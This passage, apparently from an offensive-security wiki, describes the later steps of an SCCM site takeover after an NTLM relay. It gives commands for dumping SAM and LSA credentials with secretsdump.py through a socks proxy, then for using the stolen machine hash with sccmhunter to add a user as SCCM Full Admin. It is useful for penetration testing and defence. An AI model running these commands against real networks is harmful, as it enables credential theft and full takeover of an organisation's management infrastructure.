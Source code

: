 If the NTLM relay attack is a success and ntlmrelayx.py has effectively sent the request to the active server, a SMB session through socks proxy has been opened with administrative rights.

##### Step 3: dump active site server account credentials

Through the socks session, it is possible to dump the local credentials stored in the SAM database, and the secrets from the LSA, with [Impacket](https://github.com/fortra/impacket)'s [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
proxychains4 secretsdump.py $DOMAIN/$PASSIVE_SERVER\$@$ACTIVE_SERVER.$DOMAIN
```

Retrieve the LM:NT hash of the server account.

##### Step 4: add a new SCCM `Full Admin`

Since the active site server must be a member of the SMS Provider administrators (it is member of the `SMS Admins` group), its credentials can be used to add a new controlled user to the `Full Admin` SCCM group. [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used for this purpose.

```bash
sccmhunter.py admin -u $ACTIVE_SERVER\$ -p $LMHASH:NTHASH -ip $SMS_PROVIDER_IP

() (C:\) >> add_admin controlledUser 
() (C:\) >> show_admins
```

Post exploitation via SCCM can now be performed on the network.

> [!CAUTION]
> The tool author ([Chris Thompson](https://mobile.twitter.com/_mayyhem)) warns that [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) is a PoC only tested in lab. One should be careful when running in production environments.

## Resources

[https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/](https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/)

[https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial](https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial)

[https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts](https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts)

[https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9](https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9)

[https://blog.xpnsec.com/unobfuscating-network-access-accounts/](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)

[https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)
